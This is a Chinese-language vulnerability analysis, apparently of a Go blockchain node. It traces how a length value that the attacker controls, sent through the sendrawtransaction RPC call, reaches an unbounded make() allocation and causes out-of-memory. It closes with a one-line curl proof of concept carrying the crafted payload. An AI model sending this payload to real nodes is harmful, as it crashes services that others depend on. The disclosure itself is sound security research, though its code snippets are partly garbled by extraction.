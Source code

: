 ```
func byteXReader(reader io.Reader, x uint64)([] byte, error) `{`    p: =make([] byte, x)    n,
    err: =reader.Read(p) if n &gt; 0 `{`
        return p[: ],
        nil
    `}`
    return p,
    err  
`}`
```

ReadVarBytes函数会从reader参数中取出一个数值给val变量，val变量会被带入byteXReader函数 中，而byteXReader函数会将接收到的第二个参数带入make函数的第二个参数中，所以只要reader可控的话就能构造一段payload最终使make函数引起OOM。

由于这个函数在一个通用工具库中，所以理论上可以从很多地方触发，这个漏洞还是使用的是RPC接口的SendRawTransaction函数的Deserialize函数进行触发。

```
func(tx * Transaction) Deserialize(r io.Reader) error `{`
    //略
    for i: =uint64(0);
    i &lt; count;
    i++`{`
        var program Program
        if err: =program.Deserialize(r);
        err != nil `{`
            return errors.New("transaction deserialize program error: " + err.Error())    
        `}`    tx.Programs = append(tx.Programs, &amp;program)  
    `}`
    return nil
`}`
```

然后调用到了Program的Deserialize函数：

```
func(p * Program) Deserialize(w io.Reader) error `{`  parameter,
    err: =ReadVarBytes(w) if err != nil `{`
        return errors.New("Execute Program Deserialize Parameter failed.")  
    `}`  p.Parameter = parameter code,
    err: =ReadVarBytes(w) if err != nil `{`
        return errors.New("Execute Program Deserialize Code failed.")  
    `}`  p.Code = code
    return nil
`}`
```

然后就调用到了依赖库中的ReadVarBytes函数，该函数会调用触发OOM的byteXReader函数，数据都是一路从RPC接口传过来的，所以是可控的。

那么利用链就很明了了：RPC的SendRawTransaction接口-&gt;Transaction的Deserialize函数-&gt;Program的Deserialize函数-&gt;依赖库中的ReadVarBytes函数-&gt;byteXReader函数-&gt;触发make-&gt;OOM

PoC：

```
curl--data - binary '`{`"method":"sendrawtransaction","params":`{`"data":"0301ffffffffff"`}``}`' - H 'Content-Type:application/json'http: //*.*.*.*:20336
```
